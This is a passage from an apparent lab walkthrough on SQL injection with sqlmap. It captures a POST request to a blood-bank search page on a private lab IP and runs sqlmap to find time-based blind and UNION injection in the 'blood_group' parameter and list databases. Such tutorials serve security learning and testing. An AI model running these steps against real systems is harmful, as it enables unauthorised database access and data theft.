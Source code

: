 Here we have used two flag: -u to state the vulnerable URL and --dbs to enumerate the database/

Simple HTTP POST Based Test:
----------------------------
* First, we need to identify the vulnerable POST request and save it. In order to save the request, 
   Right on request, select 'click to copy', and save it to a directory. You have also copy the whole 
   request and save it to a text file as well.  # You can use burpsuite to capture request.

You'll notice in the request above, we have POST parameter 'blood_group' which could a vulnerable parameter/
Save HTTP POST request:
-----------------------
    abdul@rahman$ cat req.txt
    POST /blood/nl-search.php HTTP/1.1
    Host: 10.10.17.116
    Content-Length: 16
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://10.10.17.116
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://10.10.17.116/blood/nl-search.php
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
    Connection: close

    blood_group=B%2B


Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:
    - sqlmap -r req.txt -p blood_group --dbs
    - sqlmap -r <request-file> -p <vulnerable_parameter> --dbs

Here we have used two flag: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database

    abdul@rahman$ sqlmap -r req.txt -p blood_group --dbs
    [19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    [19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    [19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
    [19:33:10] [WARNING] reflective value(s) found and filtering out
    [19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
    [19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
    ---
    Parameter: blood_group (POST)